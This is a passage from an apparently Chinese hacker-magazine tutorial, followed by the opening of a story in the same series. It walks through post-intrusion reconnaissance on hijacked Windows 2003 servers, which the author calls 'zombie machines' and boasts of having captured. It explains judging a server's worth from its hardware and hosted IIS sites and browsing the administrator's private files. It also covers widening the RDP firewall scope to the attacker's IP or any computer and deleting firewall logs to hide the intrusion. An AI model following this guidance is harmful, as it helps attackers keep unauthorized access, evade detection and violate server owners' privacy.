

这个功能是怎么实现的，又该怎么解除呢？我们回到刚才的“用户属性”界面，切换到“终端服务配置文件”（图17），将“用户”中的“拒绝这个用户登录到任何的终端服务器”取消掉就可以了，这样管理员即不容易发现，我们又可以在服务器里面玩得高兴。

“设备管理器”可用来管理计算机上的设备（图18），可以用来查看和更改设备属性、更新设备驱动程序、配置设备设置和卸载设备。从这些信息中可以得知服务器的具体硬件配置，据此判断出这台服务器的价值如何，如上图所示，我可是好不容易才拿下这台2×4核心的至强CPU+2G内存的肉鸡哟。

“磁盘管理”是一个用于管理硬盘以及硬盘所包含的卷或分区的系统实用工具（图19），使用它可以初始化磁盘、创建卷、使用FAT、FAT32或NTFS文件系统格式化卷，以及创建容错磁盘系统。通过“磁盘管理”，我们无需重新启动系统或中断用户，就可以执行多数与磁盘相关的任务。另外，大多数的配置更改后将会立即生效。我们可以从磁盘管理界面中得到当前服务器所连接的所有外部存储设备、各个分区的大小及其使用情况等信息。


“服务”是一种在系统后台运行的应用程序类型，这与UNIX后台应用程序类似（图20）。它提供操作系统的核心功能，例如Web服务、事件日志、文件服务、帮助和支持、打印、加密以及错误报告。可以使用服务管理单元管理本地或远程计算机上的服务。可以通过系统运行的服务来确定系统中运行的程序、对外提供了哪些服务。



IIS其实也是一种服务（图21），不过由于其比较特殊，特将其独立为一个模块进行讲解。IIS也就是Internet Information Server（Internet信息服务），对外提供WEB访问。从IIS服务中可以查询到当前服务器中运行着哪些网站，可以按主机头名排序，一个个的进行排查。将其中有价值的网站挖掘出来，从服务器入侵网站是很简单的，简直是易如反掌。



图21

#### 三、服务器综合信息

所谓服务器综合信息，指的是通过计算机控制面板中的各个功能搜集到的有关计算机设置的信息，比如防火墙、应用程序、系统组件等信息。了解这些信息可以充分的掌握服务器的各项设置情况。



打开“开始”菜单，选择“设置”，然后点击“控制面板”进入控制面板的管理界面（图22）。双击“防火墙”便进入了Windows自带的防火墙设置界面（图23），如果服务器中没有安装诸如黑冰等其它防火墙的话，一般使用的就是Windows自带的防火墙。对防火墙设置进行操作的时候一定要小心，如果一个设置不当就有可能永远的丢掉这肥肥的肉鸡了，我就丢失过好几台极品肉鸡，至今悔恨不已啊。


在防火墙的“常规”选项中可以看到当前防火墙是否处于开启状态；切换到“例外”选项（图24），其例外的意思就是哪些程序或者端口可以顺利的通过防火墙而不受防火墙的阻拦。其中有两种添加模式：一种是“添加程序”，将程序添加为可信后，这个程序所开放的端口都不会被阻拦；另一种是“添加端口”，将端口信息添加上之后，这个固定端口就不会被阻拦，所有通过这个端口的数据都会被放行。



有时候我们会发现有些端口明明在外网服务器的防火墙里设置为放行了，但在外部网络中还是连接不上，使用SuperScan也不能扫描到。其原因有以下两种可能：一种是这台服务器有硬件防火墙在服务器的外部保护着，这个防护方法很难被突破；另一种便是这台服务器中的防火墙设置了端口的连接范围。双击“程序或者服务”框中的任意一项，或者选择“程序或者服务”框中的任意一项后，再点击“编辑”按钮，就会进入端口编辑界面（图25）。



我们就以终端服务来进行演示，被放行的端口为3389，连接范围为“子网”，意思就是只有IP地址和服务器在一个子网内的机器才能连接到这个TCP的3389端口上，其它机器连接的数据包都会被丢弃。点击“更改范围”就可以更改这个连接范围了，而且防火墙还支持特定的连接范围，比如“192.168.0.1”，那么就只有192.168.0.1这个IP地址才能连接这个端口；“192.168.0.1/255.255.255.0”，就是IP地址为192.168.0.X的机器才能连接这个端口。当我们碰到这样的服务器时，可以将自己的IP地址添加进去，或者直接更改为“任何计算机”，这样Internet上的任何一台计算机都能连接到这个端口上了。切换到防火墙的“高级”选项（图26），这里设置了是否允许ICMP协议通行（例如PING），还可以设置当前防火墙的日志记录，大家可以方便的找到它的日志文件，然后删除来清空防火墙日志。



“添加或删除程序”主要用于管理计算机上的程序（图27），通过它可以添加新程序，或者更改或删除现有的程序。从中可以看到当前服务器都安装了哪些软件，这些软件又都有什么用途。另外，我们还会发现服务器中有时管理员也会安装一些无关紧要的程序，我曾经见过在服务器上安装QQ游戏的，还有安装同花顺的，反正是各有千秋。






不要小瞧任务管理器这个小东西，它可以显示当前服务器中运行的所有进程，还可以显示这些进程是由哪些用户所运行的，还可以用来检查当前服务器所登录的所有用户。右键点击任务栏，选择“任务管理器”，切换到“用户”选项（图33）。从这里可以得知当前服务器连接了两个用户，用户名都为Administrator，其中一个用户为本地登录（Console），另外一个用户为远程登录（RDP-TCP#1），其中的“1”为第一个通过远程登录的连接用户。而且可以看到远程登录的计算机名为CASPER（我的机器）。想知道各个用户是何时登录的吗？只需要在CMD窗口中输入“Query User”就可以查看当前服务器中登录的用户信息了（图34），其中就包括了各个用户的登录时间。最后再告诉大家一个在Win2003中比较不错的查询当前系统摘要信息的CMD命令“SystemInfo”（图35），此CMD命令可以显示当前服务器的详细资料信息。





#### 四、服务器其它信息

在“添加或删除程序”的管理界面中点击“添加或删除Windows组件”便进入了组件管理界面（图28），在这里可以安装IIS、DNS、WINS、ASP.NET、DHCP等服务器组件。在这里我们可以了解到当前服务器安装了哪些服务器组件，可以用来确定这台服务器的用途。在“控制面板”中双击“管理工具”即可进入管理工具组（图29），其中的管理工具的多少要看服务器组件安装的多少，比如这台服务器就存在着DNS、IIS、ASP.NET、终端服务等。

在配置MySQL、PHP的时候，一般会在C盘的根目录建立很多相关的文件夹（图30），可以浏览C盘的根目录下的目录来判断是否安装了这些服务。想要确定服务器到底安装了什么软件，还有一个好办法，就是直接去安装程序的老家（“C:\Program Files”）下查看（图31），所有安装在C盘的程序将会一览无遗，还可以进入程序的目录来查看是否还有配置信息等等。浏览管理员的用户文件夹（“C:\Documents and Settings\Administrator”）可以查看管理员的开始菜单、文档、桌面及其收藏夹的内容（图32），了解管理员的动态。因为管理员一般会在其桌面放置一些常用的资料和工具，这些东西都是很隐私的哦！




## 菜鸟师徒行

周五杰（阿布）

### 肉鸡保卫战（下）

美好的时光总是很短暂，近两个月的暑假生活就要结束了，这天燕妹妹正在家里收拾上学的东西，嘴里嘟囔着：“一只鞋子，两只鞋子，三只鞋子……”，就在这时老妈吼道：“燕子，你这本子上都记的什么东西？还要不要了啊？”燕妹妹愣住了：“本子？记的东西？”走过去一看才知道是上次跟阿布上完课后，自己偷偷摸进服务器所记录下来的服务器的资料信息。燕妹妹感叹道：“唉，记了这么多东西也对服务器有很深的了解了，那个破布也不教我下一步需要干什么（>_<）。”于是燕妹妹给阿布打电话，可是没曾想电话里一直传来“对不起，您拨打的电话已关机，请稍后再拨……”的提示。燕妹妹疑惑道：“这小子